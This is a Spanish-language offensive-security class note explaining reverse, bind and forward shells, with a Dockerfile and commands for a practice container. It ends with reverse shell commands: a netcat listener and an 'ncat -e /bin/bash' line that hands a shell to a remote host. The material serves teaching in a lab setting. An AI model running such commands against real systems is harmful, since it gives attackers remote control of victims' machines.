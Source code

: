En esta clase, veremos las diferencias entre Reverse Shell, Bind Shell y Forward Shell:

- **Reverse Shell**: Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece la conexión de vuelta hacia la máquina del atacante, permitiéndole tomar el control de la máquina remota.

- **Bind Shell**: Esta técnica es el opuesto de la Reverse Shell, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante en ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma.

- **Forward Shell**: Esta técnica se utiliza cuando no se pueden establecer conexiones Reverse o Bind debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO** (**named pipe**), que se utiliza como una especie de “**consola simulada**” interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.

Es importante entender las diferencias entre estas técnicas para poder determinar cuál es la mejor opción en función del escenario de ataque y las limitaciones de la red.

## Crear Entorno en Docker
### Crear un Docker file
```dockerfile
FROM ubuntu:latest

ENV DEBIAN_FRONTEND noninteractive

RUN apt update && apt install -y apache2 \
  php

EXPOSE 80

ENTRYPOINT service apache2 start && /bin/bash
```
#### Ejecutar 
```bash
## Contruir Imagen
docker build -t my_image .

## Construir contenedor
docker run -dit -p 80:80 --cap-add=NET_admin --name myContainer my_image

## Ejecutar contenedor
docker exec -it myContainer bash 
```
## Reverse Shell
```bash
## Maquina Atacante
nc -nlvp 443

## Maquina Victima
ncat -e /bin/bash <IP-Victima> <PORT>
```